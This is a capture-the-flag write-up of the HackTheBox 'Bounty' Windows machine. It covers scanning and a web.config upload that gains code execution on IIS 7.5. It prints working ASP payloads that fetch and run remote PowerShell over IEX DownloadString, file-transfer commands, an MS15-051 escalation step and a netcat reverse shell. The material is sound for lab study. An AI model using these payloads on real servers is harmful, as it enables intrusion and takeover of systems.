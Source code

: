 # Bounty

- Windows 6.1.7600
- IIS 7 

- Transfert a IIS 7 web.config RCS
- MS15-051-64bits.exe
- ms10_092_schelevator

## Walkthrough
- https://www.boiteaklou.fr/HackTheBox-Bounty.html

## Nmap -> IIS 7.5

````
nmap -sC -sV 10.10.10.93
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
````
=> 80 : IIS 7.5


## IIS 7.5

Browse /<>

## dirb
````
dirb http://192.168.1.11 /usr/share/dirb/wordlists/vulns/iis.txt
````


## gobuster

````
gobuster -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html

$ gobuster -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -o gobuster/bounty

````

=> /transfert.aspx


## /transfert.aspx web.config

### IIS 7 web.config upload RCE

Googling “IIS 7.5 upload RCE” teaches us that ASP code can be executed by uploading a file called web.config.
RCE description : https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

Upload web.config

Info on IIS 7 web.config : https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

Upload .htaccess files attack : https://github.com/wireghoul/htshells

````
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>

````
````
http://10.10.10.93/uploadfiles/web.config
3
````

### Payload : whoami
````
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
````

Note : Payload in powershell
````
<%
on error resume next
Dim oS,output
Set oS = Server.CreateObject("WSCRIPT.SHELL")
output = oS.exec("cmd.exe > /c powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.13.75:8080/G783OPiDR3Em');").stdout.readall
Response.write("Powershell: " & vbCrLf & output & vbCrLf & vbCrLf)
%>
````


### Payload : download & execute Nishang
````
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.30:8000/shell.ps1')")
%>
-->
````
````
python -m SimpleHTTPServer 80
nv -lvp 4444

attrib *.* -h -s /s/d   : afiche les fichiers cachés
type user.txt


## Escalation

### Sherlock reco

serve Sherlock
````
curl https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
python -m SimpleHTTPServer
````

Download & run it from PS shell
````
IEX (New-Object Net.WebClient).downloadString(‘http://10.10.14.23/priv.ps1’)
````


### MS15-051

Wget exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
MS15-051-KB3045171
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip


Transfert file
New-Object Net.WebClient).DownloadFile(‘http://10.10.14.23/ms15-051×64.exe’,’c:\windows\temp\priv.exe‘

Transfert64bit nc
New-Object Net.WebClient).DownloadFile(‘http://10.10.14.23/nc64.exe’,’c:\windows\temp\nc.exe‘

Exploit
/priv.exe "c:\windows\temp\nc.exe -e cmd 10.10.14.23 1234"



### Other exploit : ms10_092_schelevator


Get wordlist from site
# cewl -w bobby_words.txt -v http://192.168.1.11

